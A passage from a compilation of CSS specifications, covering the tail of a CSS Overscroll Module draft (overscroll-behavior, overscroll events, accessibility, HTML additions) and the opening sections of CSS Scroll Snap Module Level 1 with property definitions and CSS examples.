  - A scroll reaching the scroll boundary of *container* chains in reverse flat tree (Last-In, First-Out) order: first to *scroller**n* (the last overscroll area in flat tree order), then to *scroller**n*−1, and so on up to *scroller*1, before chaining to *ancestor*.
  - A scroll originating within *area**k* (or on *area**k*’s `::overscroll-backdrop`) chains to *scroller**k*, then to *scroller**k*−1, …, *scroller*1, and then to *ancestor*.
2. For any other scroll container, the next link in its scroll chain is the nearest ancestor scroll container (or overscroll container) in the containing block chain that is scrollable in the scroll’s axis.
3. The viewport participates in scroll chaining as the document’s `scrollingElement`.

**Boundary default action** refers to the user-agent-defined default action performed when scrolling against the edge of the scrollport. A **local boundary default action** is a boundary default action which is performed on the scroll container without interacting with the page, for example displaying a overscroll UI affordance or overscroll area. Conversely, a **non-local boundary default action** interacts with the page, for example scroll chaining to an ancestor scroll container or a navigation action.

### 5. Overscroll Behavior Properties {#css-overscroll-2:overscroll-behavior-properties}

The **overscroll behavior** controls the permitted boundary default action for a scroll container or overscroll container when its scrollport reaches its scroll boundary.

The `overscroll-behavior` property specifies the overscroll behavior for a scroll container element. It allows the content author to specify that a scroll container element must prevent scroll chaining and/or overscroll affordances.

An element that is neither a scroll container nor an overscroll container must accept but ignore `overscroll-behavior`. This property must be applied to all scrolling methods supported by the user agent.

> **Note:** This property should provide guarantees that are, at least, as strong as preventDefault for preventing both scroll chaining and overscroll. Doing otherwise would cause content authors to use preventDefault instead.

#### 5.1. The `overscroll-behavior` Shorthand {#css-overscroll-2:overscroll-shorthand}

| Field | Value |
| --- | --- |
| Name: | **overscroll-behavior** |
| [Value:](#css-values-4:value-defs) | [ contain \| none \| auto \| chain ]{1,2} |
| [Initial:](#css-cascade-6:initial-values) | auto auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll container and overscroll container elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `overscroll-behavior` property is a shorthand property that sets the specified values of `overscroll-behavior-x` and `overscroll-behavior-y` in that order. If only one value is specified, the second value defaults to the same value.

Values have the following meanings:

****contain****

: This value indicates that the element must not perform non-local boundary default actions such as scroll chaining or navigation. The user agent must not perform scroll chaining to any ancestors along the scroll chain regardless of whether the scroll originated at this element or one of its descendants. This value must not modify the behavior of how local boundary default actions should behave, such as showing any overscroll affordances.

****none****

: This value implies the same behavior as `contain` and in addition this element must also not perform local boundary default actions such as showing any overscroll affordances.

****chain****

: This value indicates that the element may perform non-local boundary default actions such as scroll chaining or navigation. However, the element must not perform local boundary default actions, such as showing any overscroll affordances.

****auto****

: This value indicates that the user agent should perform the usual boundary default action with respect to scroll chaining, overscroll and navigation gestures.

> **Note:** In the case where a user agent does not implement scroll chaining and overscroll affordances, these values will have no side effects for a compliant implementation.

> **Note:** Programmatic scrolling is clamped and can not trigger any boundary default actions.

#### 5.2. Overscroll and Positioned Elements {#css-overscroll-2:overscroll-positioned}

This specification does not generally dictate what, if any, "overscroll" or similar actions might occur as a local boundary default action.

However, if a user agent *does* use "overscroll" behavior (that is, allowing a scrollable element to be scrolled slightly "past the end" of its scrollable area, usually with a "rubber-banding" effect after the scroll or drag is completed), then the following applies:

If an element uses fixed positioning and is positioned relative to the initial containing block, or is a sticky positioned element which is currently stuck to the viewport, then when the root scroller experiences "overscroll", that element *must not* overscroll with the rest of the document’s content; it must instead remain positioned as if the scroller was at its minimum/maximum scroll position, whichever it will return to when the overscroll is finished.

Even tho this can visually shift the fixed/sticky element relative to other elements on the page, it must be treated purely as a visual effect, and not reported as an actual layout/position change to APIs such as `getBoundingClientRect()`.

> **Note:** This behavior is because fixpos and viewport-stuck stickypos elements are positioned relative to "the viewport", which is conceptually above the root scroller in the page hierarchy (effectively, it’s the scroll container holding the root scroller). Thus, overscrolling the root scroller shouldn’t have any effect on them, just like how an abspos that is a child of a scroller but whose abspos containing block is *above* the scroller isn’t affected by the scroller doing anything at all, including overscroll.

#### 5.3. Physical Longhands for `overscroll-behavior` {#css-overscroll-2:overscroll-behavior-longhands-physical}

| Field | Value |
| --- | --- |
| Name: | **overscroll-behavior-x**, **overscroll-behavior-y** |
| [Value:](#css-values-4:value-defs) | contain \| none \| auto \| chain |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll container and overscroll container elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Logical property group:](#css-logical-1:logical-property-group) | `overscroll-behavior` |
| Media: | visual |

The `overscroll-behavior-x` property specifies the overscroll behavior in the horizontal axis and the `overscroll-behavior-y` property specifies the overscroll behavior in the vertical axis. When scrolling is performed along both the horizontal and vertical axes at the same time, the overscroll behavior of each respective axis should be considered independently.

#### 5.4. Flow-relative Longhands for `overscroll-behavior` {#css-overscroll-2:overscroll-behavior-longhands-logical}

| Field | Value |
| --- | --- |
| Name: | **overscroll-behavior-inline**, **overscroll-behavior-block** |
| [Value:](#css-values-4:value-defs) | contain \| none \| auto \| chain |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll container and overscroll container elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Logical property group:](#css-logical-1:logical-property-group) | `overscroll-behavior` |
| Media: | visual |

These properties correspond to the `overscroll-behavior-x` and `overscroll-behavior-y` properties. The mapping depends on the element’s `writing-mode`.

### 6. Overscroll Events {#css-overscroll-2:overscroll-events}

#### 6.1. Event Dispatch {#css-overscroll-2:overscroll-event-dispatch}

Each overscroll area *area* has a boolean **overscrolling state** (initially `false`) and a boolean **active overscroll flag** (initially `false`).

| Event | Interface | Targets | Description |
| --- | --- | --- | --- |
| **`overscrollstart`** | `OverscrollEvent` | overscroll containers | Fired at the overscroll container when *area*’s overscroll area parent begins scrolling or changing snap targets while its active overscroll flag is `false`. |
| **`overscrollchanging`** | `OverscrollEvent` | overscroll containers | Fired at the overscroll container when *area*’s overscroll area parent’s eventual snap target changes during an active overscroll. |
| **`overscrollend`** | `OverscrollEvent` | overscroll containers | Fired at the overscroll container when the scroll of *area*’s overscroll area parent completes and its snapped target differs from the target before the scroll started. |
| **`overscrollcancel`** | `OverscrollEvent` | overscroll containers | Fired at the overscroll container when the scroll of *area*’s overscroll area parent completes and its snapped target is unchanged from before the scroll started. |

When an overscroll area *area*’s overscroll area parent begins a scroll or snap change while *area*’s active overscroll flag is `false`:

1. Set *area*’s active overscroll flag to `true`.
2. Append an `OverscrollEvent` named `overscrollstart` with target set to *area*’s overscroll container, `overscrollTarget` set to *area*, and `overscrolling` set to *area*’s overscrolling state to the document’s pending scroll events.

When an overscroll area *area*’s overscroll area parent *scroller* updates its eventual snap target while *area*’s active overscroll flag is `true`:

1. Let *isOverscrolling* be `true` if *scroller*’s eventual snap target is *area*’s scroll snap area, and `false` otherwise.
2. Set *area*’s overscrolling state to *isOverscrolling*.
3. Append an `OverscrollEvent` named `overscrollchanging` with target set to *area*’s overscroll container, `overscrollTarget` set to *area*, and `overscrolling` set to *area*’s overscrolling state to the document’s pending scroll events.

When a scrolling operation on an overscroll area *area*’s overscroll area parent *scroller* is completed while *area*’s active overscroll flag is `true`:

1. Set *area*’s active overscroll flag to `false`.
2. Let *type* be `overscrollend` if *scroller*’s realized snap target changed from the snap target prior to `overscrollstart`, and `overscrollcancel` otherwise.
3. Append an `OverscrollEvent` named *type* with target set to *area*’s overscroll container, `overscrollTarget` set to *area*, and `overscrolling` set to *area*’s overscrolling state to the document’s pending scroll events.

`OverscrollEvent`s do not bubble and are not cancelable.

#### 6.2. The `OverscrollEvent` Interface {#css-overscroll-2:overscroll-event-interface}

```webidl
dictionary OverscrollEventInit : EventInit {
  Element? overscrollTarget = null;
  boolean overscrolling = false;
};

[Exposed=Window]
interface OverscrollEvent : Event {
  constructor(DOMString type, optional OverscrollEventInit eventInitDict = {});
  readonly attribute Element? overscrollTarget;
  readonly attribute boolean overscrolling;
};
```

****`overscrollTarget`**,  of type Element, readonly, nullable**

: The overscroll area `Element` associated with the event.

****`overscrolling`**,  of type boolean, readonly**

: The overscrolling state of `overscrollTarget` when the event was queued (`false` when snapped/snapping to the initial scroll position, `true` when snapped/snapping to `overscrollTarget`).

### 7. Accessibility Considerations {#css-overscroll-2:accessibility}

Gesture-based overscroll interactions are inaccessible when they lack an equivalent non-gesture control or when offscreen content remains in the sequential focus order. This specification addresses both requirements through the following mechanisms:

- Requiring a show invoker or toggle invoker in the same tree scope as a prerequisite for an element to be a valid overscroll area ensures that every gesture-driven overscroll area has an associated semantic command invoker in the DOM:

  - Keyboard users can navigate to the invoker and activate it to open or close the overscroll area.
  - Screen readers and other assistive technologies perceive a standard activatable button relationship rather than an invisible gesture zone, and authors can apply standard ARIA attributes to the invoker and overscroll area as needed.
  - The invoker provides a discoverable visual affordance for the overscroll action.
- Applying `interactivity: inert` to closed overscroll areas (`:overscroll-closed`) removes their interactive descendants from sequential focus navigation while closed:

  - [WCAG 3.2.1 On Focus](https://www.w3.org/WAI/WCAG20/Understanding/on-focus) requires that receiving focus must not initiate a change of context. If interactive elements inside a closed overscroll area remained focusable, focusing them would scroll them into view (to satisfy [WCAG 2.4.11 Focus Not Obscured](https://www.w3.org/WAI/WCAG22/Understanding/focus-not-obscured-minimum)) and inadvertently open the overscroll area. Making closed overscroll areas inert prevents focus traversal from triggering this unexpected context change.
  - Allowing a toggle invoker inside its closed overscroll area to escape `:overscroll-closed` inertness allows a peeking toggle control to remain focusable and operable in both the open and closed states.

### Appendix A: HTML Specification Changes {#css-overscroll-2:html-spec-changes}

#### Content and IDL Attributes {#css-overscroll-2:html-attributes}

The following boolean content attributes are added to HTML elements:

****overscrollcontainer****

: Designates an element as a potential overscroll container.

****overscrollarea****

: Designates an element as a potential overscroll area.

```webidl
partial interface HTMLElement {
  [CEReactions, Reflect] attribute boolean overscrollContainer;
  [CEReactions, Reflect] attribute boolean overscrollArea;
};
```

#### Command Invokers {#css-overscroll-2:html-invoker-commands}

An **overscroll invoker** is a command invoker element whose `commandfor` target is an overscroll area in the same tree scope and whose `command` attribute is one of the following keywords:

****`toggle-overscroll`** (a **toggle invoker**)**

: If the target overscroll area matches `:overscroll-open`, close the overscroll area; otherwise open the overscroll area.

****`show-overscroll`** (a **show invoker**)**

: Open the overscroll area.

****`hide-overscroll`** (a **hide invoker**)**

: Close the overscroll area.

To **open the overscroll area** *area*:

1. Let *scroller* be *area*’s overscroll area parent.
2. Let *offset* be the scroll snap position of *area*’s scroll snap area in *scroller* along the axis with the larger scroll distance from `(0, 0)`.
3. Perform a scroll of *scroller* to *offset* with behavior set to `auto`, updating *scroller*’s snap target to *area*’s scroll snap area.

To **close the overscroll area** *area*:

1. Let *scroller* be *area*’s overscroll area parent.
2. Perform a scroll of *scroller* to `(0, 0)` with behavior set to `auto`, updating *scroller*’s snap target to the initial scroll snap area.

#### Inertness {#css-overscroll-2:html-inertness}

A closed overscroll area (matching `:overscroll-closed`) is made inert by the user agent default stylesheet via `interactivity: inert` (see [§ 3.5 Default UA Stylesheet](#css-overscroll-2:ua-stylesheet)), allowing authors to override the closed interactivity using the `interactivity` property.

In addition, an element *node* inside an overscroll container *container* is subject to the following inert rules:

1. If *node* is an overscroll area of *container* that matches `:overscroll-open`, and another overscroll area of *container* preceding *node* in flat tree order also matches `:overscroll-open`, *node* and its flat tree subtree are inert.
2. If any overscroll area of *container* matches `:overscroll-open`, every flat tree child of *container* that is not an overscroll area (and its flat tree subtree) is inert.
3. If *node* is a toggle invoker or show invoker whose target is an overscroll area *area* of *container* in the same tree scope, and *node* is a flat tree descendant of *area*, then while *area* matches `:overscroll-closed`, *node* (and its flat tree subtree) escapes the `interactivity: inert` of *area*, provided *container* itself is not inert and no overscroll area of *container* preceding *area* in flat tree order matches `:overscroll-open`.

> **Note:** Allowing a toggle invoker to escape the inertness of its closed overscroll area enables patterns where the toggle button is a child of the overscroll area that visually peeks into the overscroll container’s scrollport while the area is closed, remaining interactive so the user can activate it to open the area.

#### Focus and Light Dismiss {#css-overscroll-2:html-focus-and-dismiss}

- Activating an overscroll invoker does not change the focused element. Sequential focus navigation (`Tab` and `Shift`+`Tab`) follows from the inert state defined in [Inertness](#css-overscroll-2:html-inertness) and HTML’s sequential focus navigation starting point when a focused element becomes inert.
- The default action of a `click` event on an `::overscroll-backdrop` pseudo-element is to close the overscroll area for every overscroll area of its overscroll container.

#### Event Handlers {#css-overscroll-2:html-event-handlers}

The following event handlers (and their corresponding event handler event types) must be supported by all HTML elements as both event handler content attributes and event handler IDL attributes on `GlobalEventHandlers`, and by all `Document` and `Window` objects as event handler IDL attributes:

| Event handler | Event handler event type |
| --- | --- |
| **`onoverscrollstart`** | `overscrollstart` |
| **`onoverscrollchanging`** | `overscrollchanging` |
| **`onoverscrollend`** | `overscrollend` |
| **`onoverscrollcancel`** | `overscrollcancel` |

```webidl
partial interface mixin GlobalEventHandlers {
  attribute EventHandler onoverscrollstart;
  attribute EventHandler onoverscrollchanging;
  attribute EventHandler onoverscrollend;
  attribute EventHandler onoverscrollcancel;
};
```

---

## CSS Scroll Snap Module Level 1 {#css-scroll-snap-1}

- **Shortname:** `css-scroll-snap-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-scroll-snap-1/](https://drafts.csswg.org/css-scroll-snap-1/)
- **Published TR:** [https://www.w3.org/TR/css-scroll-snap-1/](https://www.w3.org/TR/css-scroll-snap-1/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-09-08

### 1. Introduction {#css-scroll-snap-1:intro}

*This section is not normative.*

Popular UX paradigms for scrollable content frequently employ paging through content, or sectioning into logical divisions. This is especially true for touch interactions where it is quicker and easier for users to quickly pan through a flatly-arranged breadth of content rather than delving into a hierarchical structure through tap navigation. For example, it is easier for a user to view many photos in a photo album by panning through a photo slideshow view rather than tapping on individual photos in an album.

However, given the imprecise nature of scrolling inputs like touch panning and mousewheel scrolling, it is difficult for web developers to guarantee a well-controlled scrolling experience, in particular creating the effect of paging through content. For instance, it is easy for a user to land at an awkward scroll position which leaves an item partially on-screen when panning.

To this end, this module introduces scroll snap positions which enforce the scroll positions that a scroll container’s scrollport may end at after a scrolling operation has completed.

Also, to offer better control over paging and scroll positioning even when snapping is off, this module defines the `scroll-padding` property for use on all scroll containers, to adjust the scroll container’s optimal viewing region for the purpose of paging and scroll-into-view operations. Similarly the `scroll-margin` property can be used on any box to adjust its visual area for the purpose of scroll-into-view operations.

#### 1.1. Module interactions {#css-scroll-snap-1:placement}

This module extends the scrolling user interface features defined in [CSS2] section 11.1.

None of the properties in this module apply to the `::first-line` and `::first-letter` pseudo-elements.

#### 1.2. Value Definitions {#css-scroll-snap-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Motivating Examples {#css-scroll-snap-1:examples}

> **Example:** In this example, a series of images arranged in a scroll container are used to build a photo gallery. In this example the scroll container is larger than the photos contained within (such that multiple images may be seen simultaneously), and the image sizes vary. Using mandatory element-based snap positions, scrolling will always complete with an image centered in the scroll container’s scrollport.
>
> ```css
> img {
>     /* Specifies that the center of each photo
>        should align with the center of the scroll
>        container in the X axis when snapping */
>     scroll-snap-align: none center;
> }
> .photoGallery {
>     width: 500px;
>     overflow-x: auto;
>     overflow-y: hidden;
>     white-space: nowrap;
>     /* Requires that the scroll position always be
>        at a snap position when the scrolling
>        operation completes. */
>     scroll-snap-type: x mandatory;
> }
> ```
>
> ```html
> <div class="photoGallery">
>     
>     
>     
>     
>     
> </div>
> ```
>
> 
>
> The layout of the scroll container’s contents in the example. The snapport is represented by the red rectangle, and the snap area is represented by the yellow rectangle. Since the scroll-snap-align is “center” in the inline (horizontal) axis, a snap position is established at each scroll position which aligns the X-center of the snapport (represented by a red dotted line) with the X-center of a snap area (represented by a yellow dotted line).

> **Example:** This example builds a paginated document that aligns each page near to (but not exactly on) the edge of the scroll container. This allows the previous page to “peek” in from above in order to make the user aware that they are not yet at the top of the document. Using proximity snap positions instead of mandatory snap positions allows the user to stop halfway through a page (rather than forcing them to snap one page at a time). However, if a scrolling operation would finish near a snap position, then the scroll will be adjusted to align the page as specified.
>
> ```css
> .page {
>     /* Defines the top of each page as the
>        edge that should be used for snapping */
>     scroll-snap-align: start none;
> }
> .docScroller {
>     width: 500px;
>     overflow-x: hidden;
>     overflow-y: auto;
>     /* Specifies that each element’s snap area should
>        align with a 100px offset from the top edge. */
>     scroll-padding: 100px 0 0;
>     /* Encourages scrolling to end at a snap position when the
>         operation completes, if it is near a snap position */
>     scroll-snap-type: y proximity;
> }
> ```
>
> ```html
> <div class="docScroller">
>     <div class="page">Page 1</div>
>     <div class="page">Page 2</div>
>     <div class="page">Page 3</div>
>     <div class="page">Page 4</div>
> </div>
> ```
>
> 
>
> The layout of the scroll container’s contents in the example. The snapport is represented by the red rectangle (inset from the top by 100px due to the scroll-padding), and the snap area is represented by the yellow rectangle. Since the scroll-snap-align is “start” in the Y axis, a snap position is established at each scroll position which aligns the Y-start of the snapport (represented by a red dotted line) with the Y-start of a snap area (represented by a yellow dotted line).

### 3. Scroll Snap Model {#css-scroll-snap-1:overview}

This module defines controls for **scroll snap positions**, which are scroll positions that produce particular alignments of content within a scroll container. Using the `scroll-snap-type` property on the relevant scroll container, the author can request a particular bias for the scrollport to land on a snap position after scrolling operations (including programmatic scrolls such as the `scrollTo()` method).

Snap positions are specified as a particular alignment (`scroll-snap-align`) of an element’s scroll snap area (its border bounding box, as modified by `scroll-margin`) within the scroll container’s snapport (its scrollport, as reduced by `scroll-padding`). This is conceptually equivalent to specifying the alignment of an alignment subject within an alignment container. A scroll position that satisfies the specified alignment is a snap position.

The act of adjusting the scroll position of a scroll container’s scrollport such that it is aligned to a snap area is called **snapping**, and a scroll container may be snapped to a snap area in each axis if its scrollport is aligned with that snap area in that axis and there is no active scrolling operation. When there are multiple valid snap areas, a single one is chosen for each axis when snapping according to the algorithm for [selecting between multiple aligned snap areas](#css-scroll-snap-1:multiple-aligned-snap-areas). The CSS Scroll Snap Module intentionally does not specify nor mandate any precise animations or physics used to enforce snap positions; this is left up to the user agent.

Snap positions only affect the nearest ancestor scroll container on the element’s containing block chain.

### 4. Capturing Scroll Snap Areas: Properties on the scroll container {#css-scroll-snap-1:properties-on-the-scroll-container}

#### 4.1. Scroll Snapping Rules: the `scroll-snap-type` property {#css-scroll-snap-1:scroll-snap-type}

| Field | Value |
| --- | --- |
| Name: | **scroll-snap-type** |
| [Value:](#css-values-4:value-defs) | none \| [ x \| y \| block \| inline \| both \| pair ] [ mandatory \| proximity ]? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `scroll-snap-type` property specifies whether a scroll container is a scroll snap container, how [strictly](#css-scroll-snap-1:snap-strictness) it snaps, and [which axes](#css-scroll-snap-1:snap-axis) are considered. If no strictness value is specified, `proximity` is assumed. A single-axis scroll container only establishes snap positions in its scrollable axis; specifying `scroll-snap-type` for an axis which is not one of the box’s scrollable axes has no effect.

> **Example:** In this example, snapping to headings is enabled in the block axis (the y axis for horizontal writing, x axis for vertical writing):
>
> ```
> html {
>   scroll-snap-type: block;   /* applied to main document scroller */
> }
> h1, h2, h3, h4, h5, h6 {
>   scroll-snap-align: start;  /* snap to the start (top) of the viewport */
> }
> ```

UAs must apply the `scroll-snap-type` value set on the root element to the document viewport. Note that, unlike `overflow`, `scroll-snap-type` values are *not* propagated from HTML `body`.

##### 4.1.1.  Scroll Snap Axis: the `x`, `y`, `block`, `inline`, `both`, and `pair` values {#css-scroll-snap-1:snap-axis}

The **axis values** specify what axis(es) are affected by snap positions, and whether snap positions are evaluated independently per axis, or together as a 2D point. Values are defined as follows:

****x****

: The scroll container snaps to snap positions in its horizontal axis only.

****y****

: The scroll container snaps to snap positions in its vertical axis only.

****block****

: The scroll container snaps to snap positions in its block axis only.

****inline****

: The scroll container snaps to snap positions in its inline axis only.

****both****

: The scroll container snaps to snap positions in both of its axes independently (potentially snapping to different elements in each axis).

****pair****

: The scroll container snaps to snap positions in both of its axes together as a single 2D point belonging to a single snap area.

  A snap area is only eligible as a snap position in a scroll container with `pair` if it specifies an alignment in both axes (i.e. neither its block nor inline alignment in `scroll-snap-align` computes to `none`). Snap areas that specify alignment in only a single axis are ignored.

##### 4.1.2.  Scroll Snap Strictness: the `none`, `proximity`, and `mandatory` values {#css-scroll-snap-1:snap-strictness}

The **strictness values** (`none`, `proximity`, `mandatory`) specify how strictly snap positions are enforced on the scroll container (by forcing an adjustment to the scroll position). Values are defined as follows:

****none****

: If specified on a scroll container, the scroll container must not snap.

****mandatory****

: If specified on a scroll container, the scroll container is required to be snapped to a snap position when there are no active scrolling operations. If a valid snap position exists then the scroll container must snap at the termination of a scroll (if none exist then no snapping occurs).

****proximity****

: If specified on a scroll container, the scroll container may snap to a snap position at the termination of a scroll, at the discretion of the UA given the parameters of the scroll.

**Authors should use mandatory snap positions with consideration of varyingly-sized screens and (if applicable) varying-sized content. In particular, although access to snapped elements larger than the scrollport is handled by the UA, if authors assign mandatory snapping to non-adjacent siblings, content in between can become inaccessible in cases where it is longer than the screen.**

In each axis, a snap position is "captured" by its nearest ancestor scroll container on its associated element’s containing block chain that is scrollable in that axis—​its **scroll snap container** for that axis—​and only affects the scroll position of that scroll container in that axis. (This is true even if that scroll snap container has `scroll-snap-type: none` or a `scroll-snap-type` that does not snap in that axis; in this case, the snap position simply does not trigger snapping in that axis. It does not look further up the ancestor chain for another scroll container to snap to.)

##### 4.1.3.  Re-snapping After Layout Changes {#css-scroll-snap-1:re-snap}

If the content or layout of the document changes (e.g. content is added, moved, deleted, resized) such that the content of a snapport changes, the UA must re-evaluate the resulting scroll position, and re-snap if required. If the scroll container was snapped before the content change and those same snap areas still exist (e.g. their associated elements were not deleted), the scroll container must be re-snapped to those same snap areas after the content change. A snap area can be snapped in each axis, following the algorithm for [selecting between multiple aligned snap areas](#css-scroll-snap-1:multiple-aligned-snap-areas). If it is not possible to snap to both (e.g. if snapping to one resulted in the other being offscreen), it must prefer the focused box, followed by the targeted box, followed by the block axis if neither box is focused or targeted.

Scrolling required by a re-snap operation to a new or different box must behave and animate the same way as any other scroll-into-view operation, including honoring controls such as `scroll-behavior`. Scrolling behavior for re-snapping to the same box as before however, is UA-defined. The UA may, for example, when snapped to the start of a section, choose not to animate the scroll to the section’s new position as content is dynamically added earlier in the document in order to create the illusion of not scrolling.

> **Example:** In the following example, the log console, when initially loaded and as each message is added to the bottom, remains snapped to the bottom of the content unless the user has scrolled away from that edge:
>
> ```css
> .log {
>     scroll-snap-type: y proximity;
>     align-content: end;
> }
> .log::after {
>     display: block;
>     content: "";
>     scroll-snap-align: end;
> }
> ```
>
> The rules create a single scroll snap area represented by the `::after` pseudo-element, positioned at the very bottom of a scroll snap container. If the user scrolls “near” the bottom, the container will snap to it. If more content is dynamically added to the container, it’ll remain snapped to it (because scroll containers are required to re-snap to the same scroll snap area if it still exists after any changes). However, if the user has scrolled to somewhere else in the logs, it won’t do anything at all.

#### 4.2. Scroll Snapport: the `scroll-padding` property {#css-scroll-snap-1:scroll-padding}

| Field | Value |
| --- | --- |
| Name: | **scroll-padding** |
| [Value:](#css-values-4:value-defs) | [ auto \| `<length-percentage [0,∞]>` ]{1,4} |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the corresponding dimension of the scroll container’s scrollport |
| [Computed value:](#css-cascade-6:computed) | per side, either the keyword `auto` or a computed `<length-percentage>` value |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property specifies (for all scroll containers, not just scroll snap containers) offsets that define the **optimal viewing region** of a scrollport: the region used as the target region for placing things in view of the user. This allows the author to exclude regions of the scrollport that are obscured by other content (such as fixed-positioned toolbars or sidebars) or simply to put more breathing room between a targeted element and the edges of the scrollport.

The `scroll-padding` property is a shorthand property that sets all of the [`scroll-padding-*` longhands](#css-scroll-snap-1:longhands) in one declaration, assigning values to the longhands representing each side exactly as the `padding` property does for its longhands. Values have the following meanings:

****`<length-percentage [0,∞]>`****

: Defines an inward offset from the corresponding edge of the scrollport. When applied to the root viewport, the offset is calculated and applied relative to the layout viewport (rather than the visual viewport) the same way as the corresponding inset properties on fixed-positioned boxes; the optimal viewing region is the remaining area that intersects with the visual viewport.

****auto****

: Indicates that the offset for the corresponding edge of the scrollport is UA-determined. This should generally default to a used length of `0px`, but UAs may use heuristics to detect when a non-zero value is more appropriate.

  > **Example:** For example, a UA could detect when a `position:fixed` element is being used as an opaque unscrollable “header” that obscures the content below it, and resolve the top offset to the height of that element so that a “page down” operation (such as pressing `PgDn`) automatically scrolls by one “visible page” of content.

These offsets reduce the region of the scrollport that is considered “viewable” *for scrolling operations*: they have no effect on layout, on the scroll origin or initial position, or on whether or not an element is considered actually *visible*, but should affect whether an element or the caret is considered scrolled into view (e.g. for targeting or focusing operations), and reduce the amount of scrolling for paging operations (such as using the `PgUp` and `PgDn` keys or triggering equivalent operations from the scrollbar) so that within the optimal viewing region of the scrollport the user sees a continuous stream of content.

For a scroll snap container this region also defines the **scroll snapport**—​the area of the scrollport that is used as the alignment container for the scroll snap areas when calculating snap positions.

> **Example:** In this example, `scroll-padding` is used to center slideshow images within the portion of the scrollport that is not obscured by a fixed-position toolbar.
>
> ```css
> html {
>     overflow-x: auto;
>     overflow-y: hidden;
>     scroll-snap-type: x mandatory;
>     scroll-padding: 0 500px 0 0;
> }
> .toolbar {
>     position: fixed;
>     height: 100%;
>     width: 500px;
>     right: 0;
> }
> img {
>     scroll-snap-align: none center;
> }
> ```

UAs must apply the `scroll-padding` values set on the root element to the document viewport. (Note that, unlike `overflow`, `scroll-padding` values are *not* propagated from HTML `body`.)

### 5. Aligning Scroll Snap Areas: Properties on the elements {#css-scroll-snap-1:properties-on-the-elements}

#### 5.1. Scroll Snapping Area: the `scroll-margin` property {#css-scroll-snap-1:scroll-margin}

| Field | Value |
| --- | --- |
| Name: | **scroll-margin** |
| [Value:](#css-values-4:value-defs) | `<length>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | per side, an absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property is a shorthand property that sets all of the [`scroll-margin-*` longhands](#css-scroll-snap-1:longhands) in one declaration, assigning values to the longhands representing each side exactly as the `margin` property does for its longhands.

Values represent outsets defining the **scroll snap area** that is used for snapping this box to the snapport. The scroll snap area is determined by taking the transformed border box, finding its rectangular bounding box (axis-aligned in the scroll container’s coordinate space), then adding the specified outsets.

> **Note:** This ensures that the scroll snap area is always rectangular and axis-aligned to the scroll container’s coordinate space.

If a page is navigated to a fragment that defines a target element (one that would be matched by `:target`, or the target of `scrollIntoView()`), the UA should use the element’s scroll snap area, rather than just its border box, to determine which area of the scrollable overflow area to bring into view, *even when snapping is off or not applied on this element*.

#### 5.2. Scroll Snapping Alignment: the `scroll-snap-align` property {#css-scroll-snap-1:scroll-snap-align}

| Field | Value |
| --- | --- |
| Name: | **scroll-snap-align** |
| [Value:](#css-values-4:value-defs) | [ none \| start \| end \| center ]{1,2} |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | two keywords |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `scroll-snap-align` property specifies the box’s snap position as an alignment of its snap area (as the alignment subject) within its snap container’s snapport (as the alignment container) for each axis. The two values specify the snapping alignment in the block axis and inline axis, respectively, as determined by the writing mode of the box’s nearest ancestor scroll container on its containing block chain. If only one value is specified, the second value defaults to the same value.

Values are defined as follows:

****none****

: This box does not define a snap position in the specified axis.

****start****

: Start alignment of this box’s scroll snap area within the scroll container’s snapport is a snap position in the specified axis.

****end****

: End alignment of this box’s scroll snap area within the scroll container’s snapport is a snap position in the specified axis.

****center****

: Center alignment of this box’s scroll snap area within the scroll container’s snapport is a snap position in the specified axis.

